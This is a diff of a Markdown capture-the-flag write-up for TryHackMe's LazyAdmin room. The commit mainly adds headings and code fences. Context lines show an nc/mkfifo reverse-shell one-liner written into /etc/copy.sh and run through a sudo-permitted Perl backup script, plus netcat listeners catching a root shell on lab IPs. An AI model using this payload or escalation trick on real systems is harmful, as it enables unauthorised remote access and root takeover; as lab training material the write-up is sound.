

Before and after one commit to sudo-awk/CTF, a Markdown page: THM/lazyadmin.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/THM/lazyadmin.md
+++ b/THM/lazyadmin.md
@@ -109,6 +109,8 @@ www-data
 echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.70.19 444 >/tmp/f" > /etc/copy.sh
 ```
 
+### listener
+```
 └─$ nc -lnvp 4444
 listening on [any] 4444 ...
 connect to [10.18.70.19] from (UNKNOWN) [10.10.129.83] 40224
@@ -121,8 +123,9 @@ $ cat /etc/copy.sh
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bin/sh -i 2>&1|nc 10.18.70.19 5554 >/tmp/f
 $ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.70.19 5554 > /tmp/f" > /etc/copy.sh
 $ sudo /usr/bin/perl /home/itguy/backup.pl
+```
 
-# I created another listening port and upon running I am successfully become root
+### I created another listening port and upon running I am successfully become root
 ```
 ┌──(aaron㉿kali)-[~/thm/lazyadmin]
 └─$ nc -lnvp 5554
@@ -136,7 +139,6 @@ ls
 bin
 boot
 cdrom
-
 var
 vmlinuz
 vmlinuz.old
````
